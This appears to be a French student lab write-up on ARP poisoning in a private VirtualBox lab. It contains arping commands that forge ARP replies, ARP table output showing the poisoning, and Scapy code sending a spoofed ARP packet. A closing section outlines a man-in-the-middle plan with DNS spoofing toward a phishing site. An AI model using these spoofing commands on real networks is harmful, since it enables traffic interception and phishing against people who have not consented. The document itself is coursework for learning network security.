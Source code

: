 # TP4 : ARP Poisoning

- [TP4 : ARP Poisoning](#tp4--arp-poisoning)
  - [I. Setup](#i-setup)
  - [II. Premiers pas sur l'attaque](#ii-premiers-pas-sur-lattaque)
  - [III. Aller plus loin](#iii-aller-plus-loin)
    - [1. Scapy](#1-scapy)
    - [2. Pousser l'attaque](#2-pousser-lattaque)

## I. Setup

Il vous faudra trois machines :

- deux victimes
- un attaquant

Je vous laisse libre des détails concernant le setup, vous pouvez :

- utiliser GNS ou juste utiliser un réseau local avec votre hyperviseur (host-only avec VirtualBox)
- mettre en place un setup plus réaliste avec une des deux victimes qui est un routeur
  - le routeur donne accès internet à la victime
  - ainsi vous vous positionnez entre la victime et le routeur
- utiliser une distribution Linux orientée sécu peut être une bonne idée (Kali, BlackArch, etc.)

Assurez-vous que tout le monde se ping avant de continuer.

```bash
[dorian@router ~]$ ip a
[...]
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:29:6b:d0 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.15/24 brd 10.0.2.255 scope global dynamic noprefixroute enp0s3
       valid_lft 85976sec preferred_lft 85976sec
    inet6 fe80::a00:27ff:fe29:6bd0/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
3: enp0s8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:6e:17:21 brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.102/24 brd 192.168.56.255 scope global dynamic noprefixroute enp0s8
       valid_lft 478sec preferred_lft 478sec
    inet6 fe80::c965:f80c:3dc3:e09a/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

```bash
[dorian@victime ~]$ ip a
[...]
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:00:9a:bc brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.104/24 brd 192.168.56.255 scope global dynamic noprefixroute enp0s3
       valid_lft 462sec preferred_lft 462sec
    inet6 fe80::a00:27ff:fe00:9abc/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

```bash
[dorian@laptop-dorian ~]$ ip a
[...]
4: vboxnet0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 0a:00:27:00:00:00 brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.1/24 brd 192.168.56.255 scope global vboxnet0
       valid_lft forever preferred_lft forever
    inet6 fe80::800:27ff:fe00:0/64 scope link proto kernel_ll 
       valid_lft forever preferred_lft forever
[...]
```

➜ **Tout le monde peut bien se ping**

## II. Premiers pas sur l'attaque

➜ **Poisoning basique**

- **depuis l'attaquant, utiliser une commande [`arping`](https://sandilands.info/sgordon/arp-spoofing-on-wired-lan)**
  - utilisez-la pour écrire des données arbitraires dans la table ARP de la victime
  - vous pouvez vraiment forcer l'écriture de n'importe quoi, amusez vous avec la commande
  - genre la mac `aa:aa:aa:aa:aa:aa` qui correspond à l'IP `10.10.10.10.` peu importe, faites des tests
- **depuis la victime**
  - constatez les changements dans la table ARP
  - sous Linux c'est `ip neighbor show` pour voir la table ARP
  - on peut abréger cette commande en `ip n s`
- **depuis l'attaquant**
  - utilisez Wireshark pour voir les trames envoyées

```bash
[dorian@laptop-dorian ~]$ arping -c 100 -U -s 192.168.56.102 -I vboxnet0 192.168.56.104
ARPING 192.168.56.104 from 192.168.56.102 vboxnet0
```

```bash
[dorian@laptop-dorian ~]$ arping -c 100 -U -s 192.168.56.104 -I vboxnet0 192.168.56.102
ARPING 192.168.56.102 from 192.168.56.104 vboxnet0
```

```bash
[dorian@router ~]$ ip n s
192.168.56.241 dev enp0s8 lladdr 08:00:27:41:b5:89 STALE 
192.168.56.104 dev enp0s8 lladdr 0a:00:27:00:00:00 STALE 
192.168.56.100 dev enp0s8 lladdr 08:00:27:d2:59:36 STALE 
10.0.2.2 dev enp0s3 lladdr 52:54:00:12:35:02 STALE 
10.0.2.3 dev enp0s3 lladdr 52:54:00:12:35:03 STALE 
192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 REACHABLE 
```

```bash
[dorian@victime ~]$ ip n s
192.168.56.102 dev enp0s3 lladdr 0a:00:27:00:00:00 STALE 
192.168.56.240 dev enp0s3 lladdr 08:00:27:41:b5:89 STALE 
192.168.56.103 dev enp0s3 lladdr 08:00:27:41:b5:89 STALE 
192.168.56.1 dev enp0s3 lladdr 0a:00:27:00:00:00 REACHABLE 
192.168.56.100 dev enp0s3 lladdr 08:00:27:d2:59:36 STALE 
```

## III. Aller plus loin

### 1. Scapy

➜ **Apprendre à juste envoyer des trames basiques avec Scapy**

- des ping par exemple
  - la commande `ping` envoie des paquets de type ICMP
  - les paquets ICMP servent à plein de trucs, et il y a un identifiant pour chaque fonction, c'est un entier qui est indiqué dans le paquet ICMP
  - type `8` : *echo request* : c'est le ping
  - type `0` : *echo reply* : c'est le pong

```bash
>>> packet=IP(dst='192.168.56.104')/ICMP()/Raw(load=RandString(56))
```

```bash
>>> answer=sr1(packet, timeout=1)
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
```

```bash
>>> answer.show
###[ IP ]### 
  version   = 4
  ihl       = 5
  tos       = 0x0
  len       = 84
  id        = 65444
  flags     = 
  frag      = 0
  ttl       = 64
  proto     = icmp
  chksum    = 0x894a
  src       = 192.168.56.104
  dst       = 192.168.56.1
  \options   \
###[ ICMP ]### 
     type      = echo-reply
     code      = 0
     chksum    = 0xdf59
     id        = 0x0
     seq       = 0x0
     unused    = ''
###[ Raw ]### 
        load      = 'ZyzpOEBLt0DPhF4wO0BGtrURYnBOJKUwEHrBA68A5ec7aIZEN6R6PGXN'
```

> Les autres types ICMP servent à d'autres trucs que la commande `ping`. Voyez ICMP comme un protocole de diagnostic réseau.

- jouer avec ARP

> Gardez **Wireshark** ouvert pour tout le temps avoir un oeil sur ce qu'il se passe concrètement.

➜ Mettre en place la même attaque qu'avec `arping`

```bash
from scapy.all import *
```

```bash
>>> arpspoofed= ARP(op=2, psrc="192.168.56.106", pdst="192.168.56.107", hwdst="08:00:27:41:b5:89")
>>> arpspoofed.show()
###[ ARP ]### 
  hwtype    = Ethernet (10Mb)
  ptype     = IPv4
  hwlen     = None
  plen      = None
  op        = is-at
  hwsrc     = 08:00:27:41:b5:89
  psrc      = 192.168.56.106
  hwdst     = 08:00:27:41:b5:89
  pdst      = 192.168.56.107
```

```bash
>>> send(arpspoofed)
.
Sent 1 packets.
```

### 2. Pousser l'attaque

Pour aller plus loin sur l'attaque, comme on a discuté plus tôt en cours, le classique c'est :

- **ARP poisoning sur la victime et le routeur**
- agir soi-même comme un routeur de façon transparente, et faire suivre les trames vers les vrais destinataires (man-in-the-middle)
- **intercepter les requêtes DNS du client** qui sont en clair
- répondre de façon malicieuse
- guider la victime vers un site de phishing

Pour ce faiiire :

- il faudra encore utiliser **Scapy**
- je vous aiderai évidemment, mais commencez par Google, il y a énormément de code qui explique comment faire tout ça :)
